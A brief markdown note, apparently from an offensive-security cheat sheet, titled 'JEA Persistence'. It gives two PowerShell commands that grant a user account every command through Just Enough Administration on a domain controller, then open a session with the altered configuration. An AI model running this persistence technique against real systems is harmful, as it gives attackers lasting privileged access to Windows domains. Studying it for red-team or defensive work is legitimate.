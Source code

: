 # JEA Persistence

### 1) Allows every commands to a user on a machine

    Set-JEAPermissions -ComputerName dc -SamAccountName user1 -Verbose

    Enter-PSSession -ComputerName dc -ConfigurationName microsoft.powershell64
